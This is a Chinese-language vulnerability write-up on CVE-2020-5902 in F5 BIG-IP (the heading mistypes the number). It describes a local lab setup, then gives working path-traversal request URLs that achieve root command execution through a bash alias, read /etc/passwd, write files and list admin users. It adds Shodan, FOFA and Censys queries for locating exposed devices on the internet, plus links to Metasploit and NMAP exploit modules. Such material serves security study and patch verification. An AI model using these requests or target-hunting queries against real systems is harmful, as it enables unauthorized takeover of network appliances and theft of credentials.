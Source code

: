 ## CVE-2020-9502

### 简介

F5 BIG-IP 是美国F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台

#### 影响范围

11.6.x, 12.1.x, 13.1.x, 14.1.x, 15.0.x, 15.1.x

### **F5 BIG-IP漏洞CVE-2020-5902**

**F5 BIG-IP漏洞CVE-2020-5902已遭到利用，建议用户尽快升级**，7月1日，NCC的安全研究员发现，黑客已经开始利用F5 BIG-IP中的漏洞（CVE-2020-5902）发起攻击，旨在从被入侵的设备中窃取管理员密码。上周三该漏洞公开后，网络安全专家立即发出有关紧急修补此漏洞的警报，因为任何成功的攻击都将使攻击者完全访问世界上最重要的IT网络。Warren称，在美国网络司令部的警告推文发布几小时后，他在BIG-IP蜜罐中检测到来自五个不同IP地址的恶意攻击。在共享的日志中，Warren指出了这些攻击的来源，并可以确认它们是恶意的。

 原文链接：

https://www.zdnet.com/article/hackers-are-trying-to-steal-admin-passwords-from-f5-big-ip-devices/

### 环境搭建

在shodan和fofa中可以快速搜索到很多暴露在公网的BIG-IP管理页面。

可以本地手动搭建环境测试

官方提供的虚拟机，下载链接：

https://downloads.f5.com/esd/productlines.jsp

本次选用的是15.1.0版本为例

虚拟机已经放在下面的百度云链接中

链接：https://pan.baidu.com/s/19D6xcOwrv9WlYrNTrgazUA 
提取码：t2tb

虚拟机默认账户密码是root/default

> 密码需要验证两次，然后会强制修改密码，建议密码是字母+数字+特殊符号，不然修改不成功

进入虚假机之后在命令行中输入cofig

![image-20200710094506160](https://gitee.com/lutaixue/image/raw/master/img/20200710094506.png)

回车ok

![image-20200710094227977](https://gitee.com/lutaixue/image/raw/master/img/20200710094235.png)

选择IPV4

![image-20200710094255486](https://gitee.com/lutaixue/image/raw/master/img/20200710094255.png)

选择Yes，记下改ip：192.168.3.8，稍后测试kail与其的连通性

![image-20200710094330516](https://gitee.com/lutaixue/image/raw/master/img/20200710094330.png)

Kali可以ping通目标机器

![image-20200710094542239](https://gitee.com/lutaixue/image/raw/master/img/20200710094542.png)

在浏览器访问该虚拟开的80服务，会有警告信息，但是忽略就可以

![image-20200710102045679](https://gitee.com/lutaixue/image/raw/master/img/20200710102045.png)

进入到如下页面，默认登录账户是admin，密码是刚才修改过的root登录的密码，进入之后也会强行修改密码，同样密码不允许太过于简单

![image-20200710094852808](https://gitee.com/lutaixue/image/raw/master/img/20200710094852.png)

![image-20200710095032212](https://gitee.com/lutaixue/image/raw/master/img/20200710095032.png)

### POC验证

第一步：先通过get请求开始bash

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

![image-20200710095524804](https://gitee.com/lutaixue/image/raw/master/img/20200710095524.png)

第二步：

~~~shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/cmd&content=id
~~~

![image-20200710095825281](https://gitee.com/lutaixue/image/raw/master/img/20200710095825.png)

第三步：这一步很重要，如果之前没有登录web页面，数据一直返回为空

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd
```

此时我们重新执行第一步

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

再执行一次第三步：

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd
```



![image-20200710100055664](https://gitee.com/lutaixue/image/raw/master/img/20200710100055.png)

可以看到root、

用完接触：

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list
```

### RCE(远程命令执行漏洞)

```shell
https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

* list auth user:查看所有用户
* list auth user admin:只查看admin用户

*可能是版本问题测试多次出现一些问题，返回为空*

![image-20200710101125255](https://gitee.com/lutaixue/image/raw/master/img/20200710101125.png)

### 读文件

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

![image-20200710101032046](https://gitee.com/lutaixue/image/raw/master/img/20200710101032.png)

### 上传文件

```shell
https://192.168.3.8/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=CVE-2020-5902
```

![image-20200710105135816](https://gitee.com/lutaixue/image/raw/master/img/20200710105135.png)

![image-20200710105415154](https://gitee.com/lutaixue/image/raw/master/img/20200710105415.png)

### 公网暴露目标

#### shodan

```shell
http.favicon.hash:-335242539 "3992"

http.title:"BIG-IP&reg;- Redirect"
```

![image-20200710110731384](https://gitee.com/lutaixue/image/raw/master/img/20200710110731.png)

![image-20200710110804326](https://gitee.com/lutaixue/image/raw/master/img/20200710110804.png)

#### fofa

```shell
title="BIG-IP&reg;- Redirect"
```



![image-20200710110852706](https://gitee.com/lutaixue/image/raw/master/img/20200710110852.png)

#### cemsys

```shell
443.https.get.body_sha256:5d78eb6fa93b995f9a39f90b6fb32f016e80dbcda8eb71a17994678692585ee5

443.https.get.title:"BIG-IP&reg;- Redirect"
```



![image-20200710111111886](https://gitee.com/lutaixue/image/raw/master/img/20200710111111.png)

### 工具

#### MSF

```shell
https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

NMAP

```shell
https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse
```

### 原理解析

https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A

## 参考链接

https://github.com/jas502n/CVE-2020-5902

https://blog.csdn.net/qq_43645782/article/details/107153306?utm_medium=distribute.pc_relevant.none-task-blog-OPENSEARCH-2.compare&depth_1-utm_source=distribute.pc_relevant.none-task-blog-OPENSEARCH-2.compare

https://twitter.com/x4ce/status/1279760648465870848